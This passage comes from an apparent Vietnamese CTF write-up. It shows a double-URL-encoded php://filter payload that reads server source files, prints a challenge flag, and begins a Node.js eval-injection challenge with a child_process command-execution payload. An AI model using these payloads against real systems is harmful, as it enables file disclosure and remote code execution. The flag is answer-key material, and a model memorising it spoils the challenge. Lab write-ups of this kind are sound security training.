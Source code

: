 ```
page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv
```

- Ta được 1 chuỗi base64. Encode ra được:

![1](img/32/Screenshot%20from%202023-01-26%2020-45-48.png)

- Sửa lại payload để đọc file kia:

```
page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64-encode%252Fresource%253Dconf
```

![1](img/32/Screenshot%20from%202023-01-26%2020-46-26.png)

```
Flag: Th1sIsTh3Fl4g
```

# 33. Node - Eval

- Hàm eval(string) trong js sẽ thực hiện tính toán nếu `string` là chuỗi tính toán và thực thi code nếu `string` là script.

- Ta thử truyền: `res.end("abcd")`, trang web đã hiện lên `abcd"
` => có thể inject để thực thi cmd.

- Thử list mọi thứ ra (sử dụng module `child_process` để thực thi cmd):

```js
res.end(require('child_process').spawnSync('ls',['-la']).stdout.toString())
```
